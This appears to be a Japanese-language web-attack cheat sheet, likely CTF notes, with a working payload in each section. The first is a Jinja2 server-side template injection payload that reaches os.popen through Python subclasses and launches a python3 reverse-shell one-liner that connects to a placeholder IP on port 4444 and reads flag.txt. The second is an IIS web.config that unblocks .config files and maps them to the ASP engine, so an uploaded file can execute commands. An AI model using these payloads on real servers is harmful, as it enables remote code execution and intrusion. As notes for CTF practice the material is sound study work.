 ```
例) http://website.com/form?dst=/forms/contact
```

### SSTI(サーバサイドテンプレートインジェクション)
![](./image/2021-04-14-15-23-34.png)

・Jinja2(Reverse Shell)
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
### IIS(web.config)
実行コマンドにはcmd /cをつける。  
cmd /cはコマンド実行後にcmd.exeを終了するオプション。  
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
```